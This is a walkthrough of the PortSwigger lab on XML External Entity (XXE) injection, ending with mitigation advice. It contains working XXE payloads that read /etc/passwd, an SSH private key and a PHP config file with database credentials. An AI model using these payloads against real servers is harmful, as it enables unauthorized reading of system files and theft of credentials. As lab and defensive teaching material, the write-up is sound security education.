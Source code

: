 # Exploiting XXE using external entities to retrieve files (PortSwigger Lab)

## Exploiting XXE Using External Entities to Retrieve Files

## Lab: Exploiting XXE using external entities to retrieve files

Lab URL: [Exploiting XXE Lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

***

### **Objective**

The goal of this lab is to exploit an **XML External Entity (XXE) vulnerability** to retrieve sensitive files from the server. This occurs due to improper parsing of XML input, where external entity processing is not disabled.

***

### **Understanding the Vulnerability**

* The application processes XML data but **does not restrict external entity resolution**.
* By injecting a **malicious external entity**, an attacker can reference local files.
* The response may disclose **sensitive information**, such as system files or credentials.

***

### **Step-by-Step Solution**

#### **Step 1: Generate Traffic and Identify XML Requests**

1. Navigate to a product page and click **Check stock**.
2. Use **Burp Suite** to intercept the resulting **POST request**.
3. Observe the XML structure in the request body.

**Example intercepted request:**

```xml
POST /product/stock HTTP/1.1
Host: target-website.com
Content-Type: application/xml

<stockCheck>
    <productId>5</productId>
</stockCheck>
```

***

#### **Step 2: Modify the Request to Inject an XXE Payload**

1. Send the intercepted request to **Repeater** in Burp Suite (`Ctrl+R`).
2. Modify the XML payload to include an **external entity**:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

3. Send the modified request.
4. Observe the response, which should now contain **the contents of the `/etc/passwd` file**.

**Example Response:**

```plaintext
Invalid product ID: root:x:0:0:root:/root:/bin/bash
```

***

### **Alternative Payloads for Additional Testing**

1. **Testing for SSH Key Disclosure:**

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/user/.ssh/id_rsa"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

2. **Testing for Configuration Files (e.g., database credentials):**

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///var/www/html/config.php"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

***

### **Why This is an Example of an XXE Attack**

#### **Characteristics of the Vulnerability**

1. **Improper Input Handling:** The XML parser **processes external entities**, allowing file retrieval.
2. **Unauthorized File Access:** Attackers can **read system files** or other sensitive information.
3. **Potential for Further Exploitation:** XXE can lead to **Server-Side Request Forgery (SSRF)** or **denial of service (DoS)**.

***

### **Mitigation Strategies**

#### ✅ **Best Practices for Preventing XXE**

| **Mitigation Approach**       | **Secure?** | **Explanation**                                                               |
| ----------------------------- | ----------- | ----------------------------------------------------------------------------- |
| **Disable External Entities** | ✅           | Prevents XML parsers from processing external entities.                       |
| **Use Secure XML Parsers**    | ✅           | Ensures entity expansion is disabled by default.                              |
| **Sanitize XML Input**        | ✅           | Filters user-controlled input to prevent injection.                           |
| **Switch to JSON**            | ✅           | JSON does not support DTDs or external entities, reducing the attack surface. |

#### **Example of Secure XML Parsing (Python)**

```python
import defusedxml.ElementTree as ET
ET.parse('data.xml')  # Secure parsing without external entities
```

#### **Example of Secure XML Parsing (Java)**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

***

### **Conclusion**

This lab demonstrates how **XXE vulnerabilities** enable attackers to retrieve **sensitive files** from a server. To mitigate these risks, **external entity processing must be disabled**, **secure parsers should be used**, and **user input should be sanitized**. Organizations should conduct **regular security assessments** to detect and patch such vulnerabilities before exploitation occurs.
